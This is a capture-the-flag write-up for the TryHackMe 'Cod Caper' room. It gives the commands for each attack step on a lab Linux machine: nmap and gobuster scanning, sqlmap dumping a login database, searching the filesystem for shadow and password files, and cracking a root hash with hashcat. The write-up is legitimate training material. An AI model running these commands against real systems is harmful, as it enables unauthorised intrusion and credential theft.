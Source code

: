 # The Cod Caper
> 4lch3my | June 28, 2023
-------------------
#### A guided room taking you through infiltrating and exploiting a Linux system.
#### [Room Link](https://tryhackme.com/room/thecodcaper)

## Tasks 
##### 1. Intro
  Deploy the machine with the Start Machine button, also either deploy your [Attack Box](https://tryhackme.com/access) OR Connect to [OpenVPN](https://tryhackme.com/access) and deploy your personal KALI machine.
<br>


##### 2. Host Enumeration
To start, I will use [nmap] which is default option on the personal Kali install I have. We start with a basic command
  `nmap -sC -sV -A MACHINE_IP`
The -sC flag runs scripts against open ports as well to determine if there are external/common vulnerabilities that we can use outright. The -sV probes all open ports it finds to determine if we can get the service/version information. -A uses agressive mode, so we can follow along with the commands and enumeration.
  In our NMAP results we get:

```
Starting Nmap 7.60 ( https://nmap.org ) at 2023-05-15 23:25 BST
Nmap scan report for ip-10-10-2-173.eu-west-1.compute.internal (10.10.2.173)
Host is up (0.00062s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6d:2c:40:1b:6c:15:7c:fc:bf:9b:55:22:61:2a:56:fc (RSA)
|   256 ff:89:32:98:f4:77:9c:09:39:f5:af:4a:4f:08:d6:f5 (ECDSA)
|_  256 89:92:63:e7:1d:2b:3a:af:6c:f9:39:56:5b:55:7e:f9 (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:B2:1D:FE:B3:AD (Unknown)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3.13
OS details: Linux 3.13
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Nmap done: 1 IP address (1 host up) scanned in 12.24 seconds
```

##### 3. Web Enumeration
Time to run gobuster to see what directorys we have on `port 80`. To do this we can run the command:`gobuster dir -u MACHINE_IP -w /usr/share/wordlists/dirb/big.txt -x php,html,txt` what will look for common files with the extensions: `php,html,txt`

```
===============================================================
Gobuster v3.0.1
===============================================================
[+] Url:            http://10.10.2.173/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,html,txt
[+] Timeout:        10s
===============================================================
2023/05/15 23:35:06 Starting gobuster
===============================================================
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.html (Status: 403)
/.htpasswd.txt (Status: 403)
/.htaccess (Status: 403)
/.htaccess.txt (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.html (Status: 403)
/administrator.php (Status: 200)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2023/05/15 23:35:13 Finished
===============================================================
```

##### 4. Web Exploitation

Now, we can use `SQLmap` to locate any SQL files/folders on this machine. To do this, we can run the follwing command: `sqlmap -u http://MACHINE_IP/administrator.php --forms --dump`. The `-u http://MACHINE_IP/administrator.php` option specifies the target URL of the web application. Replace `MACHINE_IP` with the actual IP address or hostname of the machine hosting the web application. The `/administrator.php` represents the specific page or endpoint being targeted for the SQL injection attack. The `--forms` option instructs sqlmap to identify and analyze HTML forms on the target page. And the `--dump` option tells sqlmap to retrieve and dump the data from the database tables that are vulnerable to the SQL injection attack. The tool will attempt to extract sensitive information such as usernames, passwords, and other data stored in the vulnerable database.

```
       ___
       __H__
 ___ ___[.]_____ ___ ___  {1.2.4#stable}
|_ -| . [(]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[*] starting at 23:39:14
[#1] form:
POST http://MACHINE_IP:80/administrator.php
POST data: username=&password=
do you want to test this form? [Y/n/q] 
> yes
Edit POST data [default: username=&password=] (Warning: blank fields detected): 
do you want to fill blank fields with random values? [Y/n] Y
...
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
...
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
...
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
...
do you want to exploit this SQL injection? [Y/n] Y
[23:40:08] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 (xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0
[23:40:08] [INFO] fetching current database
[23:40:08] [INFO] retrieved: users
[23:40:08] [INFO] used SQL query returns 2 entries
[23:40:09] [INFO] fetching entries for table 'users' in database 'users'
[23:40:09] [INFO] retrieved: p******d
[23:40:09] [INFO] retrieved: s********s
Database: users
Table: users
[2 entries]
+------------+------------+
| username   | password   |
+------------+------------+
| s********s | s********s |
| p******d   | p******d   |
+------------+------------+
[*] shutting down at 23:40:09
```

And there we go. We have a found suspected admin username/password pair.

##### 5. Command Execution

Time to log-in. If you recall, we have previously found the "/administrator.php" page in our `GoBuster` scan. Let's visit it and try to login!

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20%20The%20Cod%20Caper/images/admin_login.PNG?raw=true)

After we have successfully logged in, we are greated with a `command prompt` area.
Let's see, what secrets we can find. First we can run a basic "ls" command to list all files:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20%20The%20Cod%20Caper/images/ls.PNG?raw=true)

Nothing interesting here. Moving on to `shadow` files. A shadow password file, also known as `/etc/shadow`, is a system file in Linux that stores encrypted user passwords and is accessible only to the root user, preventing unauthorized users or malicious actors from breaking into the system.
To list these out, we can use the `find / 2>>/dev/null | grep -i shadow` command:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20%20The%20Cod%20Caper/images/shadow.PNG?raw=true)

This gives as a good idea, on how high priveledges does Pingu's Dad have on this system. It seems like they have full access. Time to look at some password files on the system.
To start off, we can list all the files on the system containing the phrase `pass` and then if we need, we can narrow it down later. To do this, we run the command `find / 2>>/dev/null | grep -i pass`

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20%20The%20Cod%20Caper/images/password.PNG?raw=true)

Wow, that is a lot of files, but if we take a very close look at files, we can see at the bottom a document called `/var/hidden/pass`. We can now `cat` this file, to find the ssh password. 

##### 10. SSH & Password Cracking

After the successfull login the server using `SSH` and grabing the password, we can try to crack it. First we need to determine the hash type, what can be done [HERE](https://hashcat.net/wiki/doku.php?id=example_hashes). Then we can actually crack it. We can use `John the Ripper` or `HashCat` for this task. I'll be using the later one: `hashcat -m 1800 -a 0 password_hash1.txt /usr/share/wordlists/rockyou.txt`
When you run this command, hashcat will perform a dictionary attack using the `rockyou.txt` wordlist. It will compare the hashed passwords in the `password_hash1.txt` file with the passwords in the wordlist, attempting to find a match.
If a match is found, hashcat will display the cracked password on the screen. However, if the password hash is strong or not present in the wordlist, the cracking process may not be successful.

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20%20The%20Cod%20Caper/images/cracked.PNG?raw=true)

And there we go! We have succesfully found the root password for the server!

#### Thank you for checking out my write-up about the THM room: The Cod Caper! If you are interested in other write-ups of mine or interetsed in some of my codeing work, please feel free to look around my GitHub page! Happy hacking! - 4lch3my